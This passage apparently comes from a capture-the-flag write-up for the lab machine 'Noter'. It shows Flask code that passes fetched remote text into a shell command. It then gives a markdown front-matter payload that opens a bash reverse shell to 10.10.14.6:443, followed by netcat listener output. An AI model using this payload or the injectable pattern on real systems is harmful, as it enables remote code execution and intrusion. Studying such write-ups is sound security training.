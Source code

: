     
    
    # Export remote
    @app.route('/export_note_remote', methods=['POST'])
    @is_logged_in
    def export_note_remote():
        if check_VIP(session['username']):
            try:
                url = request.form['url']
    
                status, error = parse_url(url)
    
                if (status is True) and (error is None):
                    try:
                        r = pyrequest.get(url,allow_redirects=True)
                        rand_int = random.randint(1,10000)
                        command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                        subprocess.run(command, shell=True, executable="/bin/bash")
    
                        if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):
    
                            return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)
    
                        else:
                            return render_template('export_note.html', error="Error occurred while exporting the !")
    
                    except Exception as e:
                        return render_template('export_note.html', error="Error occurred!")
    
    
                else:
                    return render_template('export_note.html', error=f"Error occurred while exporting ! ({error})")
    
            except Exception as e:
                return render_template('export_note.html', error=f"Error occurred while exporting ! ({e})")
    
        else:
            abort(403)
    

The client-side filtering wants the input file to be a markdown file, and this
is markdown to pdf, so I’ll create a simple `payload.md`:

    
    
    ---js\n((require("child_process")).execSync("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"))\n---RCE
    

I’ll start a Python webserver and a `nc` listener, and submit
`http://10.10.14.6/payload.md` to Noter. There’s a connection at the webserver
and then a connect at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.160 60204
    /bin/bash: 1"))\n---RCE: ambiguous redirect
    